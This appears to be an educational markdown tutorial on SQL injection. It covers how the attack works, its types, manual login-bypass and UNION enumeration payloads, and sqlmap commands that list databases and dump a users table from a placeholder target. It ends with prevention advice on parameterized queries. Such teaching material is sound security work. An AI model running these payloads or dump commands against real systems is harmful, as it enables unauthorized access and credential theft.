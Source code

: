 ## SQL Injection (SQLi)

## **1. Introduction to SQL Injection**  
SQL Injection (SQLi) is a web security vulnerability that allows an attacker to manipulate SQL queries executed by an application. This can lead to unauthorized access, data leakage, or even full database compromise.  

### **1.1 How SQL Injection Works**  
When a web application does not properly validate or sanitize user inputs, an attacker can inject malicious SQL code into database queries.  

For example, consider the following vulnerable query:  

```sql
SELECT * FROM users WHERE username = '$input_username' AND password = '$input_password';
```  
If a user inputs `admin' --` as the username, the query becomes:  

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```  
The `--` makes the rest of the query a comment, effectively bypassing authentication.

---

## **2. Types of SQL Injection Attacks**  
1. **Error-Based SQL Injection** – Uses database error messages to extract information.  
2. **Union-Based SQL Injection** – Uses the `UNION` SQL operator to combine results from different queries.  
3. **Boolean-Based (Blind) SQL Injection** – Exploits conditional responses (True/False) without error messages.  
4. **Time-Based (Blind) SQL Injection** – Uses SQL commands like `SLEEP()` to determine if a query is vulnerable.  
5. **Out-of-Band SQL Injection** – Uses external channels (e.g., DNS or HTTP requests) to extract data.  

---

## **3. Manually Testing for SQL Injection**  

### **3.1 Identifying Vulnerable Parameters**  
1. Use `'` (single quote) in input fields. If an error occurs, the input is likely vulnerable.  
2. Use common SQL payloads like:  

   ```
   ' OR 1=1 --
   ' UNION SELECT null, version() --
   ```

3. Check for database errors in responses (e.g., `MySQL syntax error` or `Unclosed quotation mark after the character string`).  

### **3.2 Common SQLi Payloads**  
- **Bypassing Login**  
  ```
  admin' --  
  ' OR 1=1 --  
  ' OR '1'='1' --  
  ```

- **Extracting Database Version**  
  ```
  ' UNION SELECT null, @@version --
  ```

- **Enumerating Database Tables (MySQL)**  
  ```
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
  ```

---

## **4. Automating SQL Injection with SQLmap**  
SQLmap is a powerful tool for automating SQL injection testing.

### **4.1 Installing SQLmap**  
On Kali Linux, SQLmap is pre-installed. If not, install it using:  
```bash
sudo apt install sqlmap
```
For other systems:  
```bash
pip install sqlmap
```

### **4.2 Basic SQLmap Usage**  
Run SQLmap against a vulnerable URL:  
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
This command:  
- Tests `id=1` for SQL injection  
- Lists all available databases  

### **4.3 Extracting Tables & Columns**  
Find tables in a specific database:  
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
```
Find columns in a table:  
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns
```

### **4.4 Dumping Data**  
To extract usernames and passwords:  
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump
```

### **4.5 Bypassing Login with SQLmap**  
```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=123" --dump
```
This automates SQL injection in login forms.

---

## **5. Preventing SQL Injection**  

- Use **Prepared Statements (Parameterized Queries)**  
```python
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

- **Input Validation & Whitelisting**  
- **Least Privilege for Database Users**  
- **Web Application Firewalls (WAF)**  
- **Regular Security Audits & Penetration Testing**  
